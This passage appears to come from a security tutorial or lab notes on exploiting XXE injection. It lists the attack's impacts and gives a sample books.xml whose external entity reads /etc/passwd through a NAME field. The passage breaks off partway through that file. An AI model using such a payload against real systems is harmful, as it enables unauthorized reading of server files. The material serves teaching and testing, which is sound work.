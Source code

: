 1. Internal
2. External

![image-20211016101457351](images/image-20211016101457351.png)

### EXPLOITING EXTERNAL XML ENTITY (XXE) INJECTION
* XXE occurs when an attacker can inject external entities into the XML document being parsed by the application and it if it gets executed.
  - It leads to a variety of attacks.
  - Reading arbitrary files on the server.
  - Scanning internal networks
  - Denial of Service
  - Remote Code Execution (in some cases)




1. Create books.xml

   ```
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE document [
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
   ]>
   <BOOKS>
     <STUDENT>
     <ID>1001</ID>
     <NAME>&xxe;</NAME>
     <BOOK1>Ah, Wilderness!</BOOK1>
     <BOOK2>All Passion Spent</BOOK2>
     <BOOK3>The Soldier's Art</BOOK3>
     <BOOK4>Alone on a Wide, Wide Sea</BOOK4>
     <BOOK5>An Acceptable Time</BOOK5>
     </STUDENT>
     <STUDENT>
       <ID>1002</ID>
       <NAME>BOB</NAME>
        <BOOK1>Antic Hay</BOOK1>
     <BOOK2>An Evil Cradling</BOOK2>
     <BOOK3>Arms and the Man</BOOK3>
     <BOOK4>As I Lay Dying</BOOK4>
     <BOOK5>A Time to Kill</BOOK5>
     </STUDENT>
     <STUDENT>
       <ID>1003</ID>
       <NAME>DENNY</NAME>
       <BOOK1>Behold the Man</BOOK1>
   ```